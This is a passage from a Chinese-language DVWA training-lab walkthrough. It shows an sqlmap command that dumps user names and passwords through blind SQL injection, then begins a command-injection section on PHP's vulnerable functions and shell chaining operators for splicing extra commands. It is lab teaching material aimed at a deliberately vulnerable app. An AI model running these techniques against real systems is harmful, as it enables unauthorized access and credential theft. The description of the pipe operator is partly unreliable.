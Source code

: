 


获取用户和密码

```shell
sqlmap "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind/#" --cookie "security=medium; PHPSESSID=ejqjhrcjdf2em40du4bru9l96n" --data "id=1&Submit=Submit" -D dvwa -T users -C user,password  --dump
```

![image-20230803214021239](./DVWA.assets/image-20230803214830944.png)



## Command Injection

Command Injection，即命令注入，是指通过提交恶意构造的参数破坏命令语句结构，从而达到执行恶意命令的目的。PHP命令注入攻击漏洞是PHP应用程序中常见的脚本漏洞之一。

PHP命令注入漏洞的函数` systme()、exec()、shell_exec()`

注入命令过程中，常常需要使用一些系统命令的拼接方式，以达到更多复杂功能的实现，尤其是存在限制的情况，运用好可用来绕过限制。

---

```python
逻辑运算符::

&&：代表首先执行命令a，若成功再执行命令b，又被称为短路运算符。

&：代表首先执行命令a再执行命令b，不管a是否成功，都会执行命令b。在执行效率上来说“&&”更加高效。

||：代表首先执行a命令再执行b命令，只有a命令执行不成功，才会执行b命令。

|：代表首先执行a命令，在执行b命令，不管a命令成功与否，都会去执行b命令。

（当第一条命令失败时，它仍然会执行第二条命令，表示A命令语句的输出，作为B命令语句的输入执行。）
```

### LOW级别

输入127.0.0.1,结果与在本机使用ping命令完全一致，说明这里可以让我们执行ping命令。
